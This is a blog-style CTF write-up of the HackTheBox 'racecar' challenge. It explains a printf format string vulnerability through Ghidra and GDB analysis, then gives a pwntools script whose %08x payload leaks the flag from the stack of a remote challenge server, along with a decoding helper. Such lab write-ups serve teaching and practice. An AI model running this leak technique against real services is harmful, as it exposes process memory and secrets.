







Hi all! This will be a quick writeup for the HackTheBox challenge [racecar](https://app.hackthebox.com/challenges/racecar?tab=play_challenge).

This challenge is part of HTB's [Binary Exploitation](https://app.hackthebox.com/tracks/57) track, and serves as an introduction to the format string vulnerability.

Let's get started :)

## Initial Triage

As always, the first step is to figure out what kind of file we are dealing with.

```bash
┌──(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ file racecar
racecar: ELF 32-bit LSB pie executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

From the `file` output that our binary is a 32-bit ELF binary, and has PIE enabled.

I won't go into PIE here, as it is not needed for this challenge.

Now that we know I can run this on linux systems, let's just run it to see what happens.


Not much going on here. As always, I also run `strings` just to see if anything pops out.

```bash
┌──(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ strings racecar
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
exit
srand
fopen
puts
time
putchar
stdin
<SNIP...>
flag.txt
<SNIP...>
```
Most of the output are standard strings you would see in any c program; however, two strings stand out to me: `fopen` and `flag.txt`. Given what we've seen the program does, it's interesting that it's opening a file most likely called `flag.txt`.

## Static Analysis

### Main

Let's open the binary up in Ghidra to look at the main function.

```c
void main(void)

{
  int iVar1;
  int iVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setup();
  banner();
  info();
  while (check != 0) {
    iVar2 = menu();
    if (iVar2 == 1) {
      car_info();
    }
    else if (iVar2 == 2) {
      check = 0;
      car_menu();
    }
    else {
      printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
    }
  }
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

There are multiple function's being called here. I'll take a look at them one-by-one.

### Setup Functions

`main()` begins by calling 2 setup functions: `setup()` and `banner()`.

#### setup()
```c
void setup(void)

{
  int iVar1;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setvbuf(_stdin,(char *)0x0,2,0);
  setvbuf(_stdout,(char *)0x0,2,0);
  alarm(0x7f);
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
```

The setup function does a few things.

First, it stores a stack canary in `iVar1`, and checks the canary's value right before `return`. Very briefly, stack canaries are used to detect stack smashing. Knowledge of stack canaries are not needed for this challenge, so we can disregard the specifics for now.

Second, it makes 2 calls to `setvbuf()`. According to the man pages, `setvbuf()` is used to set the buffering mode of any open stream. In our case, it is being called on stdin and stdout. The streams are being set to mode 2 which corresponds to the macro `_IONBF` in the stdio header file. This means our stdin and stdout will be unbuffered. This is normal as stdin and stdout will be piped to a network socket.

Lastly, the function makes a call to `alarm()`. `alarm()`, as the name implies, is used to set a timer to send the SIGALRM signal. In this case, it is probably used as a timeout mechanism as, again, the binary is meant to run over a network socket.

Overall, this function doesn't have anything interesting, and it is probably safe to ignore.

#### banner()

Looking at `banner()`, it is pretty easy to tell that all it's doing is printing out the initial graphics when you start the program. We can ignore this function

### info()

`info()` handles the logic for entering your name and nickname. This a bit more interesting as it does take in user input with `read()`, however the usage here is generally safe.

```c
void info(void)

{
  // SNIP
  __s = malloc(0x20);
  __s_00 = malloc(0x20);
  // SNIP
  read(0,__s,0x1f);
  // SNIP
  read(0,__s_00,0x1f);
  // SNIP
  return;
}
```

The function has two `read()` calls in to `__s` and `__s_00`. In both cases, the destination buffer is of size 0x20, while read will only read a maximum of 0x1f bytes (leaving 1 extra byte for a null terminator). We cannot overflow these user inputs, so let's also ignore this function.

### menu() and car_info()

After doing some setup and prompting for your name/nickname, `main()` then starts the "game" logic. It runs a loop that first calls `menu()`. This function serves the simple purpose of prompting us whether we want to see the car info, or if we want to select a car. If we choose 1, `car_info()` is called to print the details of each car. No vulnerabilities can be found in either of these functions.

### car_menu()

Let's get to the meat and potatoes. If the user inputs a 2 in the menu, `car_menu()` is called. Here's the high-level overview.

The user is prompted for 2 inputs for selecting a car and selecting a race. Both can either be 1 or 2.

```c
do {
  car_type = read_int(uVar4,uVar5);
  if ((car_type != 2) && (car_type != 1)) {
    printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
  }
} while ((car_type != 2) && (car_type != 1));
race_type = ::race_type();
```

If the car type is 1 and the race type is 2, or if the car type is 2 and the race type is 2, then the race type gets set to a random number between 0-9, and another random number is generated between 0-99.

```c
  if (((car_type == 1) && (race_type == 2)) || ((car_type == 2 && (race_type == 2)))) {
    race_type = rand();
    race_type = race_type % 10;
    rand_num = rand();
    rand_num = rand_num % 100;
  }
```

If the car type is 1 and race type is 1, or if the car type is 2 and race type is 2, the resulting ranges are reversed.

```c
  else if (((car_type == 1) && (race_type == 1)) || ((car_type == 2 && (race_type == 1)))) {
    race_type = rand();
    race_type = race_type % 100;
    rand_num = rand();
    rand_num = rand_num % 10;
  }
```

Otherwise, both ranges are 0-99

```c
  else {
    race_type = rand();
    race_type = race_type % 100;
    rand_num = rand();
    rand_num = rand_num % 100;
  }
```

The win condition of the race is as follows

```c
  if (((car_type == 1) && (race_type < rand_num)) || ((car_type == 2 && (rand_num < race_type)))) {
    printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
```

Essentially, this means if we choose the first car, then we want to choose the second race, and if we choose the second car, then we need to choose the first race.

The result still has some randomness, but we can try running the program with these inputs to see if we win.

```bash
Select car:
1. 🚗
2. 🏎️
> 1


Select race:
1. Highway battle
2. Circuit
> 2

[*] Waiting for the race to finish...

[+] You won the race!! You get 100 coins!
[+] Current coins: [169]

[!] Do you have anything to say to the press after your big victory?
> [-] Could not open flag.txt. Please contact the creator.
```

We win the race, but the result is an error telling us that we can't open flag.txt. Looking at the code again, we can see that flag.txt is opened in the same function and read to the stack.

```c
__stream = fopen("flag.txt","r");
if (__stream == (FILE *)0x0) {
  printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar2);
                /* WARNING: Subroutine does not return */
  exit(0x69);
  
fgets(local_3c,0x2c,__stream);
}
```

Great! Now we can create a dummy flag.txt on our local machine to continue the program.

```bash
┌──(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ echo -n "This is a test flag" > flag.txt

┌──(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ ./racecar
<SNIP>
[+] You won the race!! You get 100 coins!
[+] Current coins: [169]

[!] Do you have anything to say to the press after your big victory?
```

We are now prompted again, anything we put get's echo'd back to us.

```bash
[!] Do you have anything to say to the press after your big victory?
> adf

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
adf
```

The code for this is as follows.

```bash
__format = malloc(0x171);
__stream = fopen("flag.txt","r");
if (__stream == (FILE *)0x0) {
  printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar2);
                /* WARNING: Subroutine does not return */
  exit(0x69);
}
read(0,__format,0x170);
puts(
    "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
    );
printf(__format);
```

Like the other user inputs, `read()` is being called properly and will never read more bytes than the size of the destination buffer. However, our user input is being directly used in `printf()`. Ghidra is even so kind to decompile the variable as `__format` to give us a little hint. This leads us to the discovery of a format string vulnerability.

## Format String Vulnerability

A format string vulnerability occurs when a user has direct control of the string being used in a formatter. In this case, our user input is directly being used in `printf()`. "Why is this a bad thing, what can you even do with that?" you ask? Well `printf()` is actually very powerful, and having this access can lead to the leakage of a running program's memory.

Let's look at a normal usage of `printf()`

```c
char a[] = "world!";
printf("Hello, %s\n", a);
```

In this code, we are telling `printf()` to format the string `"Hello, %s\n"` such that `%s` gets "replaced" with a. Running this code, results in the following output.

```bash
croc:content/hackthebox/racecar
➜ ./a.out
Hello, world!
```

We can also use multiple variables like so.

```c
printf("Hello, %s %s\n", a, a);
```

```bash
croc:content/hackthebox/racecar
➜ ./a.out
Hello, world! world!
```

Each pattern of '%' (a format specifier)  represents a parameter we are trying to format and print. But here's a question, what happens if the number of format specifiers and the number of follow-on parameters don't match? What if we have more or less parameters than our format string describes? Let's just run it and see what happens.

```c
printf("Hello\n", a);
```
```bash
croc:content/hackthebox/racecar
➜ ./a.out
Hello
```

```c
printf("Hello, %s %s\n", a);
```
```bash
croc:content/hackthebox/racecar on  main [!?]
➜ ./a.out
Hello, world! _
```

Interesting, so if the number of format specifiers is less than the number of parameters we are trying to print, nothing really happens. However, if we put more format specifiers than parameters, we see some random data gets printed. This is a **memory leakage**, and it can be leveraged to examine a program's memory.

I know I said I wouldn't delve into this, but remember how the output of the `file` command showed this binary has PIE enabled? Well PIE stands for **Position Independent Executable**, and is a security feature that enables the randomization of memory addresses during execution. Memory leakages like format string vulnerabilities are one of the ways we can defeat this security feature!

Blah blah blah. Enough talking (typing), let's actually exploit the program. As we've already seen, the contents of `flag.txt` are read in to memory, but the program doesn't do anything with it. How can we leverage this format string vulnerability to print the flag?

Well first, we have to figure out what `printf()` is printing when we put more format specifiers than intended. It can't be actual random data right?

## Dynamic Analysis

Enough Ghidra, let's open up the program in GDB to see what's going on with `printf()`.

We can disassemble the car_menu function, and scroll to the bottom to find our calls to `printf()`

```bash
┌──(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ gdb racecar
<SNIP>
pwndbg> disass car_menu
   0x56555fe2 <+849>:	call   0x56555660 <read@plt>
   0x56555fe7 <+854>:	add    esp,0x10
   0x56555fea <+857>:	sub    esp,0xc
   0x56555fed <+860>:	lea    eax,[ebx-0x2514]
   0x56555ff3 <+866>:	push   eax
   0x56555ff4 <+867>:	call   0x565556e0 <puts@plt>
   0x56555ff9 <+872>:	add    esp,0x10
   0x56555ffc <+875>:	sub    esp,0xc
   0x56555fff <+878>:	push   DWORD PTR [ebp-0x40]
   0x56556002 <+881>:	call   0x56555670 <printf@plt>
<SNIP>
```

I'll just put a break point here. When we run the program, we can examine the stack.



As you can see, right before calling `printf()`, we can see the string I used as input "THIS IS A TEST\n" at the top of the stack. There doesn't seem to be any variables being passed as parameters (varargs), so we can try using some format specifiers to print data.



Now that our format specifier is being passed as a parameter, let's see what gets printed by going to the next instruction.



Looks like the value 5655a240 got printed. If we look at our stack, this value lines up with the value at the top of our stack!



And, if we put more format specifiers, you can see that we can keep printing values down the stack!!




When we zoom out and take a broader look at the stack, you can see the test flag value. This means if we print enough bytes, we will eventually print out the flag's data!



## Exploitation

Finally, it's time to exploit.

We are not sure how many format specifiers we need to throw to directly return the flag, but maybe we don't need to! We can just throw a bunch and hope the flag get's printed. If it doesn't, you can always just add more specifiers until it does.

Additionally, because we are just printing out bytes (and they are in little endian), we should change our test flag.txt to have a noticeable pattern of bytes. I will use the string "AAAA"

```bash
┌──(python3-gen)─(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ echo -n "AAAA" > flag.txt
```

To quickly test, I'll create a quick python script to programatically interact with the process.

```python3
from pwn import *

s = input("Enter a payload: ")

p = process('./racecar')
output = p.sendlineafter(b'Name', b'croc')
output = p.sendlineafter(b'Nickname', b'croc')
output = p.sendlineafter(b'selection', b'2')
output = p.sendlineafter(b'car', b'1')
output = p.sendlineafter(b'Circuit', b'2')

output = p.sendlineafter(b'victory?', s.encode())

output = p.recvall()
print(str(output.decode()))

p.close()
```
```bash
┌──(python3-gen)─(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ python exploit-local.py
Enter a payload: %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
[+] Starting local process './racecar': pid 148000
[+] Receiving all data: Done (347B)
[*] Process './racecar' stopped with exit code 0 (pid 148000)

>
The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:
57016240 00000170 565d0d85 00000002 00000018 00000026 00000001 00000002 565d196c 57016240 570163c0 41414141 565d1500 f7cc2275 983ead00 565d1d58 565d3f8c fff9d2d8 565d138d 565d1540 570161e0 00000002 983ead00 00000000 565d3f8c fff9d2f8
```

Running the exploit, you can see the data that corresponds with "AAAA" as the 12th word (41414141)!

Before we run this against the real program, let's quickly translate these bytes into printable characters. We will have to swap the endiannes of each word, then convert them to ascii characters if possible (Thanks Claude!).

```python3
s = input('Input string: ')

s = s.split()
print(s)
print()

result = ''

for o in s:
    val = int(o, 16)
    chars = val.to_bytes(4, 'big')
    printable = ''.join(chr(b) if 32 <= b < 127 else '.' for b in chars)
    result += printable[::-1]

print(result)
```

Running this with the output of my local exploit, we have:

```bash
┌──(python3-gen)─(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ python decode.py
Input string: 57016240 00000170 565d0d85 00000002 00000018 00000026 00000001 00000002 565d196c 57016240 570163c0 41414141 565d1500 f7cc2275 983ead00 565d1d58 565d3f8c fff9d2d8 565d138d 565d1540 570161e0 00000002 983ead00 00000000 565d3f8c fff9d2f8
['57016240', '00000170', '565d0d85', '00000002', '00000018', '00000026', '00000001', '00000002', '565d196c', '57016240', '570163c0', '41414141', '565d1500', 'f7cc2275', '983ead00', '565d1d58', '565d3f8c', 'fff9d2d8', '565d138d', '565d1540', '570161e0', '00000002', '983ead00', '00000000', '565d3f8c', 'fff9d2f8']

@b.Wp.....]V........&...........l.]V@b.W.c.WAAAA..]Vu"....>.X.]V.?]V......]V@.]V.a.W......>......?]V....
```

And just like that, we see the plaintext "AAAA" in the output.

To run this against the server's binary, all we need to do is replace

```python
p = process("./racecar")
```

with

```python
p = remote(IP, PORT)
```

And run!

```bash
┌──(python3-gen)─(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ python exploit.py
Enter payload: %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
[+] Opening connection to 154.57.164.79 on port 31904: Done
[+] Receiving all data: Done (347B)
[*] Closed connection to 154.57.164.79 port 31904

>
The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:
56ce21c0 00000170 565bed85 00000007 0000002f 00000026 00000001 00000002 565bf96c 56ce21c0 56ce2340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 007d213f 54105f00 f7ef03fc 565c1f8c fff28238


┌──(python3-gen)─(kali㉿kali)-[~/Documents/htb/racecar-writeup]
└─$ python decode.py
Input string: 56ce21c0 00000170 565bed85 00000007 0000002f 00000026 00000001 00000002 565bf96c 56ce21c0 56ce2340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 007d213f 54105f00 f7ef03fc 565c1f8c fff28238
['56ce21c0', '00000170', '565bed85', '00000007', '0000002f', '00000026', '00000001', '00000002', '565bf96c', '56ce21c0', '56ce2340', '7b425448', '5f796877', '5f643164', '34735f31', '745f3376', '665f3368', '5f67346c', '745f6e30', '355f3368', '6b633474', '007d213f', '54105f00', 'f7ef03fc', '565c1f8c', 'fff28238']

.!.Vp.....[V..../...&...........l.[V.!.V@#.VHTB{***********************}.._.T......\V8...
```

I've censored the flag, but it's right there in the output for all to see :).

## Conclusion

If you've made it this far, thank you. Honestly, these writeups are more for me to solidify my own knowledge, but I hope you learned something as well. Happy hacking!
